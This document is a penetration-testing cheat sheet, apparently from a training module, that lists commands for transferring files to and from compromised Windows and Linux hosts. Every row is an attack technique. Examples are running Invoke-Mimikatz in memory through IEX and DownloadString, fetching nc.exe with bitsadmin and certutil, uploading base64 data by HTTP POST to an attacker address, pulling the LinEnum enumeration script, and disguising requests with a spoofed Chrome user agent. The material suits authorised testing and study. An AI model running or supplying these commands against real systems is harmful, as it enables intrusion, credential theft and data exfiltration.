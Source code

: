 # File transfer Cheat Sheet

The cheat sheet is a useful command reference for this module.

| **Command**                                                                 | **Description**                                      |
|-----------------------------------------------------------------------------|----------------------------------------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`    | Download a file with PowerShell                   |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell         |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`    | Upload a file with PowerShell                     |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`           | Download a file using Bitsadmin                  |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`              | Download a file using Certutil                   |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget                       |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL                       |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP                       |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`         | Upload a file using SCP                          |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                   | Download a file using SCP                        |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
